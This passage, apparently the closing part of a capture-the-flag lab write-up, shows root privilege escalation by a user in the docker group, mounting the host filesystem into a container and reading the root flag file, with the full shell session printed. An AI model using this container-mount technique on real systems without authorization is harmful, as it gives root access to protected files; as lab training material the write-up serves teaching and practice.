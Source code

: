 It shows that the user is part of the docker gorup, this is often used because they give access to users in a dedicated group to run commands as root for docker as docker needs root privelages, this makes priv esc simple as we simply use the docker image as a template to priv esc

```bash
spanishdancer@ariekei:~$ docker run -v /:/rootexploit -i -t bash
bash-4.4# ls
bin          etc          lib          mnt          root         run          srv          tmp          var
dev          home         media        proc         rootexploit  sbin         sys          usr
bash-4.4# cd rootexploit
bash-4.4# ls
bin         dev         home        lib         lost+found  mnt         proc        run         snap        sys         usr         vmlinuz
boot        etc         initrd.img  lib64       media       opt         root        sbin        srv         tmp         var
bash-4.4# cd root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
0385b6629b30f8a673f7bb279fb1570b
bash-4.4#
```

And there we get our root shell, Thanks for reading hoep you enjoyed.

